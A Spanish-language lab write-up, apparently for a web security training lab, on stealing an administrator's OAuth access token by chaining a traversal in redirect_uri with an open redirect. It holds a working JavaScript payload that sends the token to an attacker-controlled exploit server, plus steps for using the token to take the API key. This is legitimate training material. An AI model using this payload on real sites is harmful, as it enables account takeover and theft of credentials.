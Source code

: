 En esta segunda clase, se encadena la redirección relativa (**../**) en el **redirect_uri** con la redirección abierta (**/post/next?path=**) para forzar que el flujo OAuth finalice en un servidor externo controlado por el atacante (exploit server).

Se construye un iframe malicioso que redirige al administrador (quien tiene sesión activa con el proveedor OAuth) a través del flujo de autenticación. El token de acceso resultante se incluye como fragmento (**#access_token=…**) en la URL de redirección final.

Mediante un pequeño script JavaScript en el exploit server, el fragmento es extraído y reenviado como parámetro de consulta (**/?access_token=…**), permitiendo su captura desde los logs del servidor.

Con el token ya robado, se realiza una solicitud autenticada al endpoint **/me** del blog, obteniendo así la API key del administrador. Esta clave es enviada como solución para completar el laboratorio.

La clase pone de relieve cómo una mala validación en **redirect_uri**, sumado a una redirección abierta interna, puede comprometer tokens sensibles sin necesidad de vulnerar el proveedor OAuth directamente.

Solucion
../post/next?path=
Entonces ahora necesitamos redirigir a la victima para eso vamos a crearnos un script el cual lo que ara es traer el apikey del administrador
(<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0a38007603b7bcd080ff339002250043.oauth-server.net/auth?client_id=ssw7aglu9bjrzy5fj9tqp&redirect_uri=https://0a40007903afbced80f7357f00f0002e.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a74008e03d8bcfa809a34e3014c00a9.exploit-server.net/exploit&response_type=token&nonce=-2060465930&scope=openid%20profile%20email';
    } else {
        window.location = '/?'+ document.location.hash.substr(1);
    }
</script>)
![Pasted_image_20250830185131.png](/Imagenes/Pasted_image_20250830185131.png)
le damos store y le damos acces log
![Pasted_image_20250830185229.png](/Imagenes/Pasted_image_20250830185229.png)
copias el ultimo access_token
dentro del repeater en la seccion de /me lo modificamos en la parte que dice authorization y le damos send
![Pasted_image_20250830185311.png](/Imagenes/Pasted_image_20250830185311.png)
de modo que nos dara la api key y con esa la copiamos y pegamos en el laboratorio
![Pasted_image_20250830185356.png](/Imagenes/Pasted_image_20250830185356.png)
